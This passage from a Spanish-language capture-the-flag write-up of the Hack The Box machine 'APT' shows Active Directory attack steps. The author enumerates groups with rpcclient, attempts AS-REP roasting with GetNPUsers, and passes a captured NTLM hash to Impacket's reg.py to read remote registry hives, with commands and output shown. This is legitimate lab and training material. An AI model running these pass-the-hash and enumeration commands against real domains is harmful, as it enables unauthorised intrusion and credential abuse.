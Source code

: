 Dentro de los Administradores del Dominio, solo aparece un RID, por lo que ningún otro usuario tiene máximimos privilegios

```null
rpcclient $> querygroupmem 0x200
	rid:[0x1f4] attr:[0x7]
```

Como el usuario henry.vinson_adm no lo tenía en el diccionario de usuarios válidos, vuelvo a efectuar un ASPRepRoast Attack

```null
GetNPUsers.py htb.local/ -no-pass -usersfile valid_users
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User APT doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User henry.vinson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User henry.vinson_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Pero también requiere de autenticación previa de Kerberos

Puedo tratar de ver los registros de la máquina víctima

Para saber en que consiste que cada uno, me guié de este [Post](https://www.herongyang.com/Windows/Registry-Hives-HKCR-HKCU-HKLM-HKU-HKCC-HCPD.html)

```null
reg.py htb.local/henry.vinson@APT -hashes :e53d87d42adaa3ca32bdb34a876cbffb query -keyName HKU
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[!] Cannot check RemoteRegistry status. Hoping it is started...
HKU
HKU\Console
HKU\Control Panel
HKU\Environment
HKU\Keyboard Layout
HKU\Network
HKU\Software
HKU\System
HKU\Volatile Environment
```

Dentro de Software, destaca un registro

```null
reg.py htb.local/henry.vinson@APT -hashes :e53d87d42adaa3ca32bdb34a876cbffb query -keyName 'HKU\Software'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[!] Cannot check RemoteRegistry status. Hoping it is started...
HKU\Software
HKU\Software\GiganticHostingManagementSystem
HKU\Software\Microsoft
HKU\Software\Policies
HKU\Software\RegisteredApplications
HKU\Software\Sysinternals
HKU\Software\VMware, Inc.
HKU\Software\Wow6432Node
HKU\Software\Classes
```
